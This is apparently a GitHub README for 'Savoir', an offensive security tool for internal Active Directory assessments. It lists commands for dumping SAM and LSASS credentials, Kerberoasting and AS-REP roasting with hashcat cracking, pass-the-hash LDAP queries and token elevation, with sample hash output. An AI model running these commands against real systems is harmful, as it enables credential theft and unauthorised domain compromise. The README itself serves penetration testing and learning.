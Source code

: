 # Savoir

Savoir is a tool to perform tasks during internal security assessment.
This project help me to understand how some pentest tools works.


## Build

You can build `savoir` for multiple platforms:

```bash
make update
make build
```

The `build` folder contains build for multiple OS and architectures.


## Commands

### sam

```bash
savoir sam local # Windows only
savoir sam hive --sam <path/to/sam> --system <path/to/system>
savoir sam shadowcopies # Windows only
```


### lsass

```bash
savoir lsass process --json # Windows only
savoir lsass minidump --path /path/to/lsass.dmp --json
```

### kerberos


#### Ask a TGT then a TGS

You can also ask a TGS, `savoir` will ask for a `TGT` first

```bash
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$858129adc693b1a8bb62e50a51b4ffc2$9b2b...
```

You can ask a `TGT` save it to a `kirbi` files then ask for a `TGS`:

```bash
# Ask a TGT and save it to dany.kirbi
savoir kerberos asktgt --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -o dany.kirbi
TGT saved to dany.kirbi.

# Display the TGT
savoir kerberos describe --ticket dany.kirbi
ServiceName              :  krbtgt/ubh.lab
ServiceRealm             :  UBH.LAB
UserName                 :  dany
UserRealm                :  UBH.LAB
StartTime                :  2022-01-22 09:12:55 +0000 UTC
EndTime                  :  2022-01-22 19:12:55 +0000 UTC
RenewTill                :  2022-01-29 09:12:55 +0000 UTC
Flags                    :  forwardable ; proxiable ; renewable ; initial ; pre-authent
KeyType                  :  arcfour-hmac-md5
Base64(key)              :  9CrwY3aAdXdr91h7uGi9qg==

# Ask a TGS using this TGT
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -t dany.kirbi -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$ef59ed1f3fdfddf356dd93823ad8208f$228920...
```


#### Generate Kerberos keys

Note that `RC4` key is the `NTLM` hash `(MD4(UNICODE(password)))`

```bash
savoir kerberos keys --password 'Pa$$w0rd' --salt 'CONTOSO.COMAdministrator'
arcfour-hmac-md5
  Key: 92937945b518814341de3f726500d4ff
  Iterations: 00001000

aes128-cts-hmac-sha1-96
  Key: bd75e98362b16649ffbaed630d5341d0
  Iterations: 00001000

aes256-cts-hmac-sha1-96
  Key: 660e61042b190b5724c62bb473facca12058fb9ad3c03c0d2809f839c0352502
  Iterations: 00001000
```


#### AS-REP roasting 

A User account may have the option `Do not require Kerberos preauthentication`
checked.

```bash
# target a specific user
savoir kerberos asreproast --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> --format=john
# target all users in domain
savoir kerberos asreproast --dc-ip <DOMAIN_IP> -d <DOMAIN> --ldap-user <LDAP_USERNAME> --ldap-password <LDAP_PASSWORD> rc4 --format=john
```


#### Kerberoasting

```bash
# target a specific SPN
savoir kerberos asktgs --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> --spn <SPN> --output <HASHES>
# target all SPN in the domain (use the same credentials to query LDAP or use an other account)
savoir kerberos asktgs --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> --ldap --output <HASHES>
# Recover the password
hashcat -m 13100 -a 0 <HASHES> <PASSWORDS>
```


### LDAP

```bash
# Use a domain account with a password
savoir ldap query -H <LDAP_HOSTNAME> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> -q <QUERY>
savoir ldap query -H <LDAP_HOSTNAME> -d <DOMAIN> -u <USERNAME> -n <NTLM_HASH> -q <QUERY>
```


### token

```bash
savoir token elevate -x cmd.exe # Windows only
```


### webscreenshot

This command take a screenshot of a URL using a headless browser.

```bash
savoir webscreenshot --url {url} --renderer {chrome|chromium|firefox} --renderer-path {path}
```


## Credits

- [gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- [skelsec/pypykatz](https://github.com/skelsec/pypykatz)
- [SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
- [jcmturner/gokrb5](https://github.com/jcmturner/gokrb5)
